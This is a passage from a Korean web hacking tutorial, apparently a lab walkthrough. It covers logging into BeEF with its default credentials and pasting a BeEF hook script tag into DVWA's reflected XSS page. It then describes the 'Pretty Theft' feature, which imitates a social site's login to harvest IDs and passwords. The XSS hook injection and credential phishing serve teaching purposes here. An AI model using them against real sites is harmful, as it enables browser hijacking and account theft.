 </div>스샷. 10<br><br>
-웹 페이지가 자동으로 띄워짐, beef/beef로 로그인
<div align="center" >
<img src="/Art of Web Hacking/Chapter9/012.png" width="510" height="130"> <br>
</div>스샷. 11<br><br>
<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#010101">&lt;</span><span style="color:#ff3399">script</span>&nbsp;<span style="color:#0099cc">src</span>=<span style="color:#52be14">"http://127.0.0.1:3000/js"</span><span style="color:#ff3399"></span><span style="color:#010101">&gt;</span><span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#ff3399">script</span><span style="color:#010101">&gt;</span></div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>

-처음 실행될 때 확인한 후크 스크립트를 Vulnerability: Reflected Cross Site Scripting (XSS)<br>
에 입력하시면

<div align="center" >
<img src="/Art of Web Hacking/Chapter9/013.png" width="510" height="430"> <br>
</div>스샷. 12<br><br>
- Pretty Theft 기능은 SNS 사이트의 인터페이스를 모방하여 사용자가<br>
그 사이트의 아이디/패스워드를 입력하도록 유도<br><br>
<div align="center" >